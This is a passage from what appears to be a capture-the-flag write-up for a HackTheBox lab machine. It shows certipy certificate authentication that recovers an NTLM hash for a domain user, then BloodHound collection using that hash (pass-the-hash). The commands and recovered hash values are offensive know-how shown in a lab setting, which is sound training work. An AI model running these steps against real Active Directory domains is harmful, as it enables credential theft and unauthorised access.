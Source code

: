 The password was `newpassword`. Now we use certipy to auth.
```bash
openssl pkcs8 -inform PEM -in ./baker.key -out ./real.key -passin pass:'newpassword'
certipy cert -cert baker.crt -key real.key -export -out baker.pfx
ntpx certipy auth -dc-ip $(cat ip.txt) -pfx baker.pfx 
# [*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce
```

Let's check bloodhound now.
```bash
ntpx bloodhound-ce-python -c All -u d.baker --hashes :18b5fb0d99e7a475316213c15b6f22ce -ns $(cat ip.txt) --zip -d scepter.htb
```


We can add `d.baker` to Owned and use one of the builtin queries to make it easier to find a path.

![scepter3](/assets/img/scepter3.png)

![scepter4](/assets/img/scepter4.png)
